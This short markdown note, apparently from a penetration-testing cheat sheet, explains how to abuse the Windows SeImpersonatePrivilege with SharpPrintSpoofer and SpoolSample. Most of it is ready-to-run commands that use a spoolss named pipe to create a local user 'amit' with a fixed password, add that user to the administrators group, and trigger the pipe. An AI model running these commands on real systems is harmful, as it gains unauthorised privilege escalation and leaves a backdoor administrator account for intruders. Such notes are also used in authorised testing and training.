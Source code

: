 # Leveraging SeImpersonatePrivilege
- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator: 
1. `.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net user amit Password123! /add"`
2. `.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net localgroup administrators amit /add"`

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test`
